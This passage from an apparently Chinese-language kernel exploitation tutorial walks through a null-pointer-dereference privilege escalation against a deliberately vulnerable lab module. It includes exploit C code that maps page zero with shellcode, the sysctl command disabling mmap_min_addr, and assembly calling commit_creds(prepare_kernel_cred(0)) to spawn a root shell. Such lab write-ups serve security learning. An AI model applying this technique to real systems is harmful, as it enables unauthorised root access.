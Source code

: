 ```c
    mmap(0, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/null_pointer", O_WRONLY);
    puts("Run shellcode...");
    write(fd, "Mask", 4);
    puts("Get root.");
    system("/bin/sh");
    return 0;
}

```

注意这里需要在rootfs中的init文件加这一句，取消mmap_min_addr的限制

```shell
sysctl -w vm.mmap_min_addr="0"
```

编译后打包`rootfs.cpio`，运行起来，dbg附加上去，在`bug1_write`函数下断点，可以看到在LKM执行`my_funptr()`时，由于函数指针未初始化，因而执行0地址处的指令

![1580049867176](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580049867176.png)

由于在`pwn.c`中使用`mmap`与`memcpy`往此地址写入了shellcode，所以就是执行shellcode

![1580050098336](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580050098336.png)

这段shellcode的意思是

```assembly
mov rdi,0
mov rax,0xffffffff81081740
call rax
mov rdi,rax
mov rax,0xffffffff81081550
call rax
ret

/ # grep commit_creds /proc/kallsyms            
ffffffff81081550 T commit_creds                 
......      
/ # grep prepare_kernel_cred /proc/kallsyms     
ffffffff81081740 T prepare_kernel_cred          
......
```

也就是执行`commit_creds(prepare_kernel_cred(0))`后返回，然后在`pwn.c`中执行了`system("/bin/sh")`，就相当于以root权限起了一个shell

用一个普通用户尝试，在rootfs中的init文件加入`setsid cttyhack setuidgid 1000 sh`即可以非roo启动

![1580038752682](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580038752682.png)

### Kernel Stack Buffer Overflow
